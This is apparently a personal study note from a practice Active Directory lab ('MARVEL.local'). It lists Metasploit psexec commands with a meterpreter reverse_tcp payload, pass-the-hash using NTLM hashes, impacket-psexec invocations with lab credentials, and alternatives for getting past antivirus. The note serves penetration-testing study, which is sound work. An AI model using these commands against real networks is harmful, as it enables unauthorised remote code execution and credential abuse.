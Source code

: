 # Metasploit Way
- `use exploit/windows/smb/psexec`
- `set payload windows/x64/meterpreter/reverse_tcp`
- `set rhosts 10.0.1.9`
- `set smbdomain MARVEL.local`
- `set smbuser fcastle`
- `set smbpass Password1`
- ![[Pasted image 20250328161905.png]]
- `run` to get the shell:
	- ![[Pasted image 20250328162408.png]]
- Using `hash`:
	- `set smbuser administrator` => Can use pparker too, but something different
	- `unset smbdomain` => Not required as hash already have this
	- `set smbpass aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f` => **==First part is LM and second part is NT==**
		- ![[Pasted image 20250328162751.png]]
		- `run` to get a shell 


# Using `impacket-psexec`:
- `impacket-psexec MARVEL.local/\fcastle:'Password1'@10.0.1.9` => need to escape forward slash
	- ![[Pasted image 20250328164340.png]]
- `impacket-psexec pparker@10.0.1.10 -hashes aad3b435b51404eeaad3b435b51404ee:e08e15bd995aa26400e3107deb56bb16` => on .10 as hashes are of **Spiderman** machine
![[Pasted image 20250328170147.png]]

# Alternatives for psexec:
---
- `wmiexec.py`, `smbexec.y` -> for antivirus or other machine problems


# Problems
---
- Not able to login as `Administrator` as we added these accounts ourselves, might have missed some key detail:
	- ![[Pasted image 20250328170331.png]]